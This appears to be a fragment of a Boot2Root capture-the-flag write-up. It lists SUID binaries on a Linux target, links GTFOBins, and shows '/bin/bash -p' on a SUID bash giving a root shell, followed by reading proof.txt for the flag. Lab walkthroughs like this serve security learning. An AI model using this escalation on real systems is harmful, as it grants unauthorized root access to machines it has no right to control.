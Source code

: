 -rwsr-xr-x 1 root root 76496 Mar 22  2019 /snap/core18/1754/usr/bin/chfn

-rwsr-xr-x 1 root root 44528 Mar 22  2019 /snap/core18/1754/usr/bin/chsh

-rwsr-xr-x 1 root root 75824 Mar 22  2019 /snap/core18/1754/usr/bin/gpasswd

-rwsr-xr-x 1 root root 40344 Mar 22  2019 /snap/core18/1754/usr/bin/newgrp

-rwsr-xr-x 1 root root 59640 Mar 22  2019 /snap/core18/1754/usr/bin/passwd

-rwsr-xr-x 1 root root 149080 Jan 31  2020 /snap/core18/1754/usr/bin/sudo

-rwsr-xr-- 1 root systemd-resolve 42992 Jun 10  2019 /snap/core18/1754/usr/lib/dbus-1.0/dbus-daemon-launch-helper

-rwsr-xr-x 1 root root 436552 Mar  4  2019 /snap/core18/1754/usr/lib/openssh/ssh-keysign

-rwsr-xr-- 1 root messagebus 51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper

-rwsr-xr-x 1 root root 130152 Jun  5  2020 /usr/lib/snapd/snap-confine

-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device

-rwsr-xr-x 1 root root 22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1

-rwsr-xr-x 1 root root 473576 May 29  2020 /usr/lib/openssh/ssh-keysign

-rwsr-xr-x 1 root root 88464 May 28  2020 /usr/bin/gpasswd

-rwsr-xr-x 1 root root 55528 Apr  2  2020 /usr/bin/mount

-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount

-rwsr-xr-x 1 root root 68208 May 28  2020 /usr/bin/passwd

-rwsr-xr-x 1 root root 44784 May 28  2020 /usr/bin/newgrp

-rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at

-rwsr-xr-x 1 root root 166056 Feb  3  2020 /usr/bin/sudo

-rwsr-xr-x 1 root root 85064 May 28  2020 /usr/bin/chfn

-rwsr-sr-x 1 root root 1183448 Feb 25  2020 /usr/bin/bash

-rwsr-xr-x 1 root root 31032 Aug 16  2019 /usr/bin/pkexec

-rwsr-xr-x 1 root root 39144 Apr  2  2020 /usr/bin/umount

-rwsr-xr-x 1 root root 53040 May 28  2020 /usr/bin/chsh

-rwsr-xr-x 1 root root 67816 Apr  2  2020 /usr/bin/su

[https://gtfobins.github.io/gtfobins/bash/#suid](https://gtfobins.github.io/gtfobins/bash/#suid)

  

-bash-5.0$ /bin/bash -p

bash-5.0# whoami

root

bash-5.0# cd /root

bash-5.0# ls

fix-wordpress  flag.txt  proof.txt  snap

bash-5.0# cat proof.txt 

fb49956448432e09aa409127465a0fb4

  

Boot2Root